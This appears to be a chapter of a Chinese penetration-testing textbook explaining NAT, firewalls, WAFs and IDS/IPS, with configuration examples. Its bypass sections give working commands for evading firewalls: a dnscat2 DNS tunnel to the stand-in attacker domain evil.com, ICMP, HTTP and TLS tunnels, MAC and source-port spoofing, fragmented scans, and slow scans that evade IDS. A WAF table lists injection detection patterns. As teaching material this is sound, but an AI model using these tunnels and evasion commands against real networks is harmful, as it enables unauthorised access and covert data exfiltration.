



## 六、NAT与防火墙

NAT（网络地址转换）和防火墙是现代网络架构中两道最核心的"边界守卫"。NAT解决了IPv4地址枯竭问题，同时意外地成为了一道安全屏障；防火墙则是专门为安全而生的流量过滤系统。对于安全从业者而言，理解这两者的内部工作机制，不是为了"守"，而是为了知道"攻"从哪里突破——每一个NAT规则都是一条映射路径，每一条防火墙规则都可能成为信息泄露的侧信道。本章将从原理、配置、攻击面、绕过技术四个维度，系统性地展开这两个主题。

### 6.1 NAT（网络地址转换）

#### 6.1.1 NAT的诞生背景与核心问题

IPv4地址空间仅有约43亿个地址（2^32），而全球联网设备早已突破数百亿台。NAT在RFC 1631中首次提出（1994年），其核心思想简单直接：**让多个内网设备共享一个或少量公网IP地址**。

NAT工作在OSI模型的网络层（Layer 3），通常部署在网络边界——家用路由器、企业网关、云服务商的VPC网关都运行着NAT。它在数据包经过时，**改写IP报头中的源地址或目标地址**，并维护一张映射表用于回程流量的逆向转换。

```text
┌─────────────┐     NAT表      ┌─────────────┐
│  内网主机A   │    ┌───────┐   │   公网服务器  │
│ 192.168.1.10 │───>│映射规则│──>│  93.184.216.34│
│ :45678      │    │端口:映射│   │  :443       │
└─────────────┘    └───────┘   └─────────────┘
                   改写源地址为
                   203.0.113.5:45678
```

NAT解决了三个问题：(1) 缓解IPv4地址枯竭；(2) 隐藏内部网络拓扑（外部只能看到NAT设备的公网IP）；(3) 一定程度上增加了攻击者直接访问内网主机的难度。但NAT并非安全机制——RFC 4864明确指出，NAT的安全副作用不应替代真正的防火墙策略。

#### 6.1.2 NAT的四种类型详解

NAT并非只有一种形态。不同的映射策略直接影响内网主机的可达性和攻击面。

**静态NAT（Static NAT / One-to-One NAT）**

静态NAT在内网IP和公网IP之间建立固定的**一对一映射**。每个内网地址始终映射到同一个公网地址，映射关系永久存在。

```text
内网IP          公网IP
192.168.1.10 → 203.0.113.10
192.168.1.11 → 203.0.113.11
192.168.1.12 → 203.0.113.12
```

配置示例（Cisco IOS）：

```cisco
! 配置静态NAT映射
ip nat inside source static 192.168.1.10 203.0.113.10
ip nat inside source static 192.168.1.11 203.0.113.11

! 指定内外接口
interface GigabitEthernet0/0
 ip address 192.168.1.1 255.255.255.0
 ip nat inside
interface GigabitEthernet0/1
 ip address 203.0.113.1 255.255.255.0
 ip nat outside
```

安全意义：静态NAT常用于将内网服务器（如Web服务器、邮件服务器）暴露到公网。攻击者可以通过映射关系反推内网地址段——如果发现 203.0.113.10 和 203.0.113.11 是同一组织的公网IP，且行为模式一致，可以推测它们背后是连续的内网地址。

**动态NAT（Dynamic NAT）**

动态NAT从一个公网IP地址池中**按需分配**公网地址。当内网主机发起出站连接时，NAT设备从池中取一个未使用的公网地址分配给该连接。连接结束后，公网地址被回收。

```text
地址池: 203.0.113.10 ~ 203.0.113.20（共11个地址）

主机A连接 → 分配 203.0.113.10
主机B连接 → 分配 203.0.113.11
主机C连接 → 分配 203.0.113.12
...池用完后，新连接被拒绝（地址耗尽）
```

配置示例（Cisco IOS）：

```cisco
! 定义内网地址范围
access-list 1 permit 192.168.1.0 0.0.0.255

! 定义公网地址池
ip nat pool PUBLIC_POOL 203.0.113.10 203.0.113.20 netmask 255.255.255.0

! 配置动态NAT
ip nat inside source list 1 pool PUBLIC_POOL
```

安全意义：动态NAT的地址复用率有限（受地址池大小约束），当所有公网地址被占用时，新的出站连接将被阻断——这实际上形成了一种隐式的DoS条件。攻击者可以通过大量占用连接来耗尽地址池，阻断合法用户的出站通信。

**PAT / NAPT（端口地址转换 / 网络地址端口转换）**

PAT是当今使用最广泛的NAT类型，也称为NAPT（Network Address Port Translation）或"IP伪装"（IP Masquerading）。所有内网主机共享**同一个公网IP**，通过**不同的源端口号**来区分不同的内网主机和连接。

```text
内网主机A:192.168.1.10:45678 → NAT → 203.0.113.1:50001
内网主机B:192.168.1.11:45678 → NAT → 203.0.113.1:50002
内网主机C:192.168.1.12:8080  → NAT → 203.0.113.1:50003
（源端口相同也没关系，PAT会分配不同的外部端口）
```

Linux上使用iptables配置PAT（即MASQUERADE或SNAT）：

```bash
# 方式一：MASQUERADE — 适用于动态公网IP（如PPPoE拨号）
iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth0 -j MASQUERADE

# 方式二：SNAT — 适用于静态公网IP（性能更好）
iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth0 -j SNAT --to-source 203.0.113.1

# 查看NAT转换表
conntrack -L -p tcp
# 或
cat /proc/net/nf_conntrack
```

PAT的端口映射表项通常包含以下字段：

| 字段 | 说明 | 示例 |
|------|------|------|
| 源IP（内网） | 发起连接的内部主机 | 192.168.1.10 |
| 源端口（内网） | 内部主机使用的端口 | 45678 |
| 目标IP | 连接的目标地址 | 93.184.216.34 |
| 目标端口 | 连接的目标端口 | 443 |
| 映射IP（公网） | NAT设备的公网IP | 203.0.113.1 |
| 映射端口（公网） | NAT分配的外部端口 | 50001 |
| 协议 | TCP / UDP / ICMP | TCP |
| 超时时间 | 映射项的有效期 | 300秒（TCP ESTABLISHED） |

安全意义：PAT是绝大多数家庭和中小企业网络的默认NAT类型。从攻击者视角看，PAT的映射表是一个信息泄露源——如果能获取NAT映射表（如通过路由器漏洞、管理接口弱口令），就可以知道内网有哪些主机在与哪些外部服务器通信。此外，PAT的端口分配算法可能具有可预测性，某些实现使用递增端口号，攻击者可以利用这种模式推断内网主机数量和活跃程度。

**NAT64 / NPTv6（IPv6相关NAT）**

NAT64用于IPv6-only网络访问IPv4资源。它将IPv6地址转换为IPv4地址，通常与DNS64配合使用。NPTv6（Network Prefix Translation for IPv6）则仅转换IPv6前缀，保持主机部分不变。

安全意义：NAT64/DNS64引入了新的攻击面——如果DNS64服务器被篡改，攻击者可以将合法域名指向恶意IPv6地址，而用户端应用层完全无感知（因为地址转换发生在网络层）。

#### 6.1.3 NAT的行为分类（NAT Mapping Behavior）

根据RFC 5765和RFC 4787，NAT的行为模式对P2P通信和NAT穿透至关重要。这些分类直接影响VoIP、在线游戏、VPN等场景的连接建立能力：

| NAT类型 | 映射行为 | 说明 | P2P穿透难度 |
|---------|---------|------|------------|
| Full Cone（完全锥型） | 同一内网地址+端口 → 总是映射到同一公网地址+端口，任何外部主机都可以向该映射地址发送数据 | 最宽松的NAT | 最容易 |
| Restricted Cone（限制锥型） | 映射同上，但只有内网主机**曾经发送过数据的目标IP**才能回发数据 | 中等严格 | 中等 |
| Port Restricted Cone（端口限制锥型） | 同上，但进一步限制到具体的**目标IP+端口** | 较严格 | 较难 |
| Symmetric（对称型） | 针对**不同目标**，即使是同一内网地址+端口，也会产生**不同的映射** | 最严格 | 最难穿透 |

检测NAT类型通常使用STUN（Session Traversal Utilities for NAT，RFC 5389）协议：

```bash
# 使用stunclient检测NAT类型
# 安装：apt install stuntman-client
stunclient stun.l.google.com 19302

# 输出示例：
# Binding test: success
# Local address: 192.168.1.10:45678
# Mapped address: 203.0.113.1:50001
# NAT behavior: Port Restricted Cone NAT
```

安全意义：对称型NAT是最安全的NAT行为，因为它强制要求内网主机主动建立到特定目标的连接，外部无法利用已有的映射关系注入流量。在渗透测试中，如果目标企业使用对称型NAT，传统的NAT穿透技术（如UDP打洞）将更加困难。

#### 6.1.4 NAT穿透技术与安全影响

NAT穿透（NAT Traversal）技术原本用于解决NAT对合法P2P通信的阻碍，但攻击者同样可以利用这些技术来穿越NAT边界、建立隐蔽通信隧道。

**UDP打洞（UDP Hole Punching）**

UDP打洞是最常见的NAT穿透方法，广泛用于VoIP（如Skype早期版本）和P2P应用：



**端口转发（Port Forwarding）**

端口转发是最直接的NAT穿透方式——在NAT设备上手动配置规则，将特定端口的入站流量转发到内网主机：

```bash
# iptables端口转发：将公网203.0.113.1:8080 → 内网192.168.1.10:80
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 192.168.1.10:80
iptables -A FORWARD -p tcp -d 192.168.1.10 --dport 80 -j ACCEPT
```

安全意义：端口转发直接暴露了内网主机。攻击者可以通过Shodan、Censys等搜索引擎扫描到这些被转发的端口。在渗透测试中，发现目标网络的端口转发规则是一项关键侦察信息——它揭示了哪些内网服务被认为是"值得对外暴露的"。

**UPnP/NAT-PMP/PCP**

UPnP（Universal Plug and Play）和NAT-PMP（NAT Port Mapping Protocol，RFC 6886）/PCP（Port Control Protocol，RFC 6887）允许内网设备**自动请求**NAT设备添加端口转发规则，无需管理员手动配置。

```bash
# 使用upnpc工具查看和操作UPnP端口映射
apt install miniupnpc

# 列出当前UPnP映射
upnpc -l

# 添加端口映射（将外部8080端口映射到本地80端口）
upnpc -a 192.168.1.10 80 8080 TCP

# 删除端口映射
upnpc -d 8080 TCP
```

安全意义：UPnP是渗透测试中极其重要的攻击面。大量家用路由器的UPnP服务默认开启，且缺乏认证。攻击者一旦获得内网立足点（如通过钓鱼邮件中的恶意文档），就可以利用UPnP自动打开端口，将内网主机直接暴露到公网——无需管理员介入。2013年Rapid7的研究发现，全球超过6900万台设备暴露了UPnP服务到公网，其中大量设备存在缓冲区溢出漏洞。

**STUN / TURN / ICE**

这三个协议是WebRTC（浏览器实时通信）的核心NAT穿透组件：

- **STUN**（RFC 5389）：客户端通过STUN服务器发现自己的公网映射地址
- **TURN**（RFC 5766）：当P2P直连失败时，通过TURN中继服务器转发数据
- **ICE**（RFC 8445）：收集所有可能的传输路径（主机地址、STUN映射地址、TURN中继地址），选择最优路径

安全意义：WebRTC的ICE机制会泄露客户端的真实IP地址，即使使用了VPN或代理。通过 `RTCPeerConnection` API，Web页面可以获取到用户的真实内网IP和公网映射地址。这是隐私泄露的一个常见来源。以下JavaScript代码可以检测WebRTC泄露：

```javascript
// 检测WebRTC IP泄露
const pc = new RTCPeerConnection({iceServers: [{urls: 'stun:stun.l.google.com:19302'}]});
pc.createDataChannel('');
pc.createOffer().then(offer => pc.setLocalDescription(offer));
pc.onicecandidate = (event) => {
    if (event.candidate) {
        console.log('ICE Candidate:', event.candidate.candidate);
        // 提取IP地址
        const ip = event.candidate.candidate.match(/(\d{1,3}\.){3}\d{1,3}/);
        if (ip) console.log('发现IP:', ip[0]);
    }
};
```

#### 6.1.5 NAT的安全评估方法

在渗透测试中，NAT评估的重点是：(1) 确定NAT类型和映射行为；(2) 发现已有的端口转发规则；(3) 寻找绕过NAT的方法。

```bash
# 1. 确认NAT设备
traceroute -n 8.8.8.8
# 第一个公网IP就是NAT设备的外接口

# 2. 端口转发枚举（从外部扫描）
nmap -sS -p- -Pn 203.0.113.1
# 所有开放端口可能都是端口转发的目标

# 3. UPnP枚举（从内网）
nmap -sU -p 1900 --script upnp-info 192.168.1.1
# 获取UPnP设备描述，包含所有已配置的端口映射

# 4. NAT类型检测
stunclient stun.l.google.com 19302

# 5. 检测NAT端口分配模式
# 多次连接同一STUN服务器，观察分配的端口是否递增
for i in $(seq 1 10); do
    stunclient stun.l.google.com 19302 2>/dev/null | grep "Mapped"
done
```

### 6.2 防火墙基础

#### 6.2.1 防火墙的演进历程

防火墙经历了从简单到复杂的演进，每一代都针对前一代的不足做出了改进：

| 代际 | 类型 | 出现时间 | 工作层次 | 核心能力 | 主要局限 |
|------|------|---------|---------|---------|---------|
| 第一代 | 包过滤（Packet Filtering） | 1988年 | 网络层/传输层 | 基于IP、端口、协议的静态规则匹配 | 无状态，无法理解连接上下文 |
| 第二代 | 状态检测（Stateful Inspection） | 1994年（Check Point） | 传输层 | 跟踪连接状态，只允许合法连接的后续包 | 不检查应用层内容 |
| 第三代 | 应用层网关（ALG）/ 代理防火墙 | 1990年代中期 | 应用层 | 深度解析应用协议内容 | 性能开销大，需为每种协议开发代理 |
| 第四代 | UTM（统一威胁管理） | 2000年代中期 | 全层 | 集成防火墙+IDS/IPS+防病毒+VPN | 功能多但单项深度不足 |
| 第五代 | NGFW（下一代防火墙） | 2009年（Palo Alto） | 应用层深度 | 应用识别+用户识别+内容检测+威胁情报 | 配置复杂，加密流量检测需要SSL解密 |

#### 6.2.2 包过滤防火墙

包过滤防火墙是最基础的防火墙类型，它检查每个数据包的**网络层和传输层头部**，根据预设规则决定放行（ACCEPT）、丢弃（DROP）或拒绝（REJECT）。

包过滤检查的典型字段：

| 字段 | 所在层 | 示例 | 安全用途 |
|------|-------|------|---------|
| 源IP地址 | IP头部 | 192.168.1.0/24 | 限制访问来源 |
| 目标IP地址 | IP头部 | 10.0.0.5 | 保护特定服务器 |
| 源端口 | TCP/UDP头部 | 1024-65535 | 过滤特定服务 |
| 目标端口 | TCP/UDP头部 | 80, 443, 22 | 控制可访问的服务 |
| 协议号 | IP头部 | TCP=6, UDP=17, ICMP=1 | 限制协议类型 |
| TCP标志位 | TCP头部 | SYN, ACK, RST, FIN | 检测扫描和攻击 |
| TTL | IP头部 | 值过低可能是伪造包 | 反欺骗 |

Linux iptables是最典型的包过滤防火墙实现。以下是一个企业级的基础防火墙脚本：

```bash
#!/bin/bash
# 基础企业防火墙脚本 — iptables实现
# 位于网络边界，保护DMZ和内网

# ==================== 清空现有规则 ====================
iptables -F
iptables -t nat -F
iptables -X
iptables -P INPUT DROP       # 默认拒绝所有入站
iptables -P FORWARD DROP      # 默认拒绝所有转发
iptables -P OUTPUT ACCEPT     # 默认允许出站

# ==================== 基础防护 ====================
# 防止SYN Flood
iptables -A INPUT -p tcp --syn -m limit --limit 100/s --limit-burst 200 -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP

# 防止端口扫描（检测XMAS和NULL扫描）
iptables -A INPUT -p tcp --tcp-flags ALL ALL -j DROP       # XMAS扫描
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j DROP      # NULL扫描
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j DROP  # SYN+FIN异常组合
iptables -A INPUT -p tcp --tcp-flags SYN,RST SYN,RST -j DROP  # SYN+RST异常组合

# 丢弃无效状态包
iptables -A INPUT -m conntrack --ctstate INVALID -j DROP

# 允许已建立和相关连接
iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

# ==================== 允许的服务 ====================
# SSH（限内网）
iptables -A INPUT -p tcp --dport 22 -s 192.168.1.0/24 -j ACCEPT

# HTTP/HTTPS（开放）
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# DNS（仅限内网DNS服务器）
iptables -A INPUT -p udp --dport 53 -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 53 -s 192.168.1.0/24 -j ACCEPT

# ICMP（限速，防止Ping Flood和ICMP隧道）
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 5/s --limit-burst 10 -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-reply -j ACCEPT

# 允许回环接口
iptables -A INPUT -i lo -j ACCEPT

# ==================== NAT（DMZ转发） ====================
# 外部访问公网80/443端口 → DMZ Web服务器
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 10.0.0.10:80
iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 10.0.0.10:443
iptables -A FORWARD -p tcp -d 10.0.0.10 --dport 80 -j ACCEPT
iptables -A FORWARD -p tcp -d 10.0.0.10 --dport 443 -j ACCEPT

# 内网出站PAT
iptables -t nat -A POSTROUTING -s 192.168.1.0/24 -o eth0 -j MASQUERADE

# ==================== 日志记录 ====================
iptables -A INPUT -j LOG --log-prefix "IPT-INPUT-DROP: " --log-level 4
iptables -A FORWARD -j LOG --log-prefix "IPT-FORWARD-DROP: " --log-level 4

echo "防火墙规则加载完成"
```

iptables规则处理流程：



#### 6.2.3 状态检测防火墙

状态检测防火墙是包过滤的进化版本。它不仅检查单个数据包，还**维护一个连接状态表**（Connection State Table），跟踪每个连接的生命周期。

Linux `conntrack` 模块的状态标识：

| 状态 | 说明 | 安全含义 |
|------|------|---------|
| NEW | 新连接的第一个包（如TCP SYN） | 需要符合入站/出站策略 |
| ESTABLISHED | 双向数据已交换 | 通常允许通过 |
| RELATED | 与现有连接相关的新连接（如FTP数据通道、ICMP错误） | 需要协议感知模块支持 |
| INVALID | 无法识别的包或不属于任何已知连接 | 通常应该丢弃 |

查看Linux conntrack状态表：

```bash
# 查看当前所有连接跟踪条目
conntrack -L

# 查看连接跟踪统计
conntrack -S

# 实时监控连接变化
conntrack -E

# 设置连接跟踪表大小（高流量环境需要调大）
sysctl -w net.netfilter.nf_conntrack_max=262144
echo 262144 > /proc/sys/net/netfilter/nf_conntrack_max

# 查看当前表项数量
cat /proc/sys/net/netfilter/nf_conntrack_count
```

安全意义：状态检测防火墙的连接跟踪表是一个重要的攻击目标。如果攻击者能发送大量伪造的连接请求，就可以耗尽conntrack表空间，导致防火墙降级为包过滤模式或完全拒绝新连接——这是一种经典的DoS攻击手法。

```bash
# 检测conntrack表是否接近满载
conntrack -C  # 当前条目数
sysctl net.netfilter.nf_conntrack_max  # 最大条目数
# 如果比值 > 0.8，说明面临耗尽风险
```

#### 6.2.4 应用层防火墙（WAF / 应用层网关）

应用层防火墙工作在OSI模型的第七层，能够**深度解析应用协议内容**。最常见的形式是WAF（Web Application Firewall），专门防护HTTP/HTTPS流量。

**WAF的核心检测能力：**

| 攻击类型 | 检测方法 | 典型规则示例 |
|---------|---------|------------|
| SQL注入 | 匹配SQL关键字和语法模式 | 检测 `UNION SELECT`、`OR 1=1`、`'--` 等模式 |
| XSS | 匹配HTML/JavaScript标签 | 检测 `<script>`、`onerror=`、`javascript:` 等模式 |
| 命令注入 | 匹配Shell命令和管道符 | 检测 `| cat`、`; ls`、`` `whoami` `` 等模式 |
| 路径遍历 | 匹配目录穿越序列 | 检测 `../`、`..\\`、`%2e%2e%2f` 等模式 |
| 文件上传 | 检测文件扩展名和MIME类型 | 阻止 `.php`、`.jsp` 等可执行文件上传 |
| 机器人/爬虫 | User-Agent分析、行为模式 | 识别已知恶意Bot签名 |

主流WAF产品对比：

| WAF类型 | 代表产品 | 部署方式 | 特点 |
|---------|---------|---------|------|
| 云WAF | Cloudflare、AWS WAF、阿里云WAF | DNS/CNAME代理 | 无需硬件，自动更新规则 |
| 反向代理WAF | ModSecurity + Nginx/Apache | 反向代理 | 开源免费，规则灵活 |
| 硬件WAF | Imperva、F5 BIG-IP ASM | 网关设备 | 性能高，但成本高 |
| RASP | OpenRASP | 嵌入应用运行时 | 精准检测，但有性能开销 |

ModSecurity（最流行的开源WAF）配置示例：

```nginx
# Nginx + ModSecurity配置
# 安装：apt install libmodsecurity3 libnginx-mod-http-mod-security

# nginx.conf中启用ModSecurity
server {
    listen 443 ssl;
    server_name example.com;

    # 启用ModSecurity
    modsecurity on;
    modsecurity_rules_file /etc/nginx/modsec/modsecurity.conf;

    location / {
        proxy_pass http://backend;
    }
}
```

```conf
# /etc/nginx/modsec/modsecurity.conf
# 启用引擎
SecRuleEngine On

# 请求体处理
SecRequestBodyAccess On
SecRequestBodyLimit 13107200
SecRequestBodyNoFilesLimit 131072

# OWASP CRS规则集
Include /etc/nginx/modsec/crs-setup.conf
Include /etc/nginx/modsec/rules/*.conf

# 日志配置
SecAuditLog /var/log/modsecurity/modsec_audit.log
SecAuditLogType Serial
```

#### 6.2.5 下一代防火墙（NGFW）

NGFW在传统防火墙基础上增加了三项关键能力：**应用识别**、**用户识别**、**威胁情报集成**。

**应用识别**：传统防火墙只能看到"端口80的流量"，NGFW能识别"这是Slack的流量、这是Tor的流量、这是BitTorrent的流量"——即使它们都走443端口。这是通过深度包检测（DPI）和行为分析实现的。

**用户身份集成**：NGFW与LDAP/AD/RADIUS集成，将流量与具体用户绑定。这使得安全策略可以基于用户角色而非IP地址——"允许研发团队访问GitHub，但禁止财务团队访问"。

**威胁情报**：NGFW订阅实时威胁情报源（如IP信誉库、恶意域名库、C2通信特征库），自动阻断已知恶意流量。

#### 6.2.6 防火墙规则分析与绕过技术

理解防火墙规则是渗透测试的关键技能。以下是系统化的防火墙分析和绕过方法。

**防火墙规则探测**

```bash
# 1. 端口扫描探测开放端口
nmap -sS -p 1-65535 -Pn --reason target_ip
# --reason 显示端口状态的原因（开放|过滤|关闭）
# 区分 "filtered"（防火墙丢弃）和 "closed"（主机拒绝）很重要

# 2. 使用不同扫描技术探测防火墙行为
nmap -sS target_ip  # SYN扫描 — 可能被状态检测防火墙捕获
nmap -sT target_ip  # TCP全连接扫描 — 通过更多防火墙
nmap -sU target_ip  # UDP扫描 — 检测UDP过滤规则
nmap -sA target_ip  # ACK扫描 — 探测是否有状态检测
# ACK扫描：如果返回RST → 无状态过滤（包过滤防火墙）
# 如果被丢弃 → 有状态检测防火墙

# 3. 使用nmap脚本探测防火墙类型
nmap --script firewall-bypass target_ip
nmap --script http-waf-detect target_ip
nmap --script http-waf-fingerprint target_ip

# 4. TTL分析推断防火墙位置
nmap -sS -p 80 --ttl 1 target_ip    # TTL=1只能到达第一跳
nmap -sS -p 80 --ttl 2 target_ip    # TTL=2到达第二跳
# 逐步增加TTL，观察何时端口状态改变，定位防火墙跳数
```

**常见绕过技术：**

**技术一：分片绕过（Fragmentation）**

将TCP数据包分成多个IP分片，使防火墙难以重组完整包进行规则匹配：

```bash
# Nmap分片扫描
nmap -f target_ip           # 基本分片（8字节分片）
nmap -ff target_ip          # 更小的分片
nmap --mtu 24 target_ip     # 自定义MTU

# hping3分片
hping3 -f -p 80 -S target_ip
```

**技术二：协议隧道封装**

将受限流量封装在允许的协议中，穿透防火墙：

```bash
# DNS隧道 — 将数据封装在DNS查询中（绝大多数防火墙允许DNS出站）
# 使用dnscat2
# 服务端（攻击者）
dnscat2-server evil.com

# 客户端（目标主机）
dnscat2-client evil.com

# ICMP隧道 — 将数据封装在ping包中
# 使用ptunnel
ptunnel -p proxy_ip -lp 8080 -da target_ip -dp 80

# HTTP隧道 — 将任意TCP流量封装在HTTP中
# 使用httptunnel
# 服务端
hts -F localhost:22 80
# 客户端
htc -F 8022 proxy_ip:80
ssh -p 8022 localhost
```

**技术三：源端口伪装**

某些防火墙规则只限制目标端口，不限制源端口。攻击者可以将扫描包的源端口设置为允许通过的端口：

```bash
# 将源端口设为53（DNS）或80（HTTP），绕过只允许这些服务的防火墙
nmap -g 53 target_ip     # 源端口53
nmap --source-port 80 target_ip

# 使用hping3
hping3 -S -p 80 -s 53 target_ip
```

**技术四：TTL操控**

利用TTL差异区分防火墙和目标主机的响应：

```bash
# 设置特定TTL使数据包刚好到达防火墙但不到达主机
hping3 -S -p 80 --ttl 5 target_ip
```

**技术五：MAC地址欺骗**

某些企业防火墙基于MAC地址做白名单，攻击者可以伪造信任主机的MAC：

```bash
# 查看目标网络的信任MAC地址
arp-scan -l

# 修改本机MAC地址
ifconfig eth0 hw ether 信任的MAC地址
# 或
ip link set dev eth0 address 信任的MAC地址
```

**技术六：加密流量绕过**

加密流量（HTTPS/VPN）对防火墙来说是"黑盒"，除非防火墙配置了SSL/TLS解密：

```bash
# 使用加密隧道绕过内容检测
# stunnel — 将任意TCP流量封装在TLS中
# 服务端
stunnel -d 443 -r 127.0.0.1:8080

# 客户端
stunnel -c -d 8080 -r 防火墙外IP:443
```

### 6.3 IDS/IPS（入侵检测/防御系统）

IDS（Intrusion Detection System）和IPS（Intrusion Prevention System）是防火墙的重要补充。IDS被动监控流量并发出告警，IPS则在线阻断可疑流量。

#### 6.3.1 IDS/IPS的工作模式

| 模式 | 说明 | 部署位置 | 优势 | 劣势 |
|------|------|---------|------|------|
| 旁路（IDS） | 交换机镜像端口或TAP设备 | 镜像流量 | 不影响网络延迟 | 只能告警，不能阻断 |
| 串联（IPS） | 直接在网络路径中 | 网关/防火墙后 | 可以主动阻断 | 增加延迟，可能误阻断 |

#### 6.3.2 检测方法

| 检测方法 | 原理 | 优点 | 缺点 |
|---------|------|------|------|
| 签名检测 | 匹配已知攻击特征 | 准确率高，误报低 | 无法检测未知攻击 |
| 异常检测 | 建立流量基线，检测偏差 | 能检测未知攻击 | 误报率高 |
| 协议分析 | 解析协议状态机，检测违规 | 精准检测协议攻击 | 需要每种协议的解码器 |
| 行为分析 | 分析长期行为模式 | 能检测APT | 需要大量历史数据 |

#### 6.3.3 IDS/IPS绕过技术

```bash
# 1. 慢速扫描 — 降低速率避免触发阈值
nmap -T0 target_ip  # 极慢扫描（每个探测间隔5-10分钟）
nmap -T1 target_ip  # 慢速扫描

# 2. 随机化 — 打乱端口顺序和时间间隔
nmap --randomize-hosts -p- target_ip

# 3. 分段攻击 — 将攻击载荷分散在多个包中
